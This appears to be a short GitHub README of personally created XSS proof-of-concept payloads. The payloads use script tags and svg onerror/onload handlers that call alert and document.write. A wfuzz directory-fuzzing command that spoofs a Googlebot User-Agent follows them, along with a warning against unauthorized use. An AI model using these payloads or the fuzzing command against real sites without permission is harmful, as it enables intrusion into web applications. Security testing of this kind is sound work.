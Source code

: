 # xss
Personally created XSS payloads

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any person who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```

<br>

<br>

# wFuzz
wFuzz is a web application fuzzing tool

##  Ultimate wFuzz command v1 <br>

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

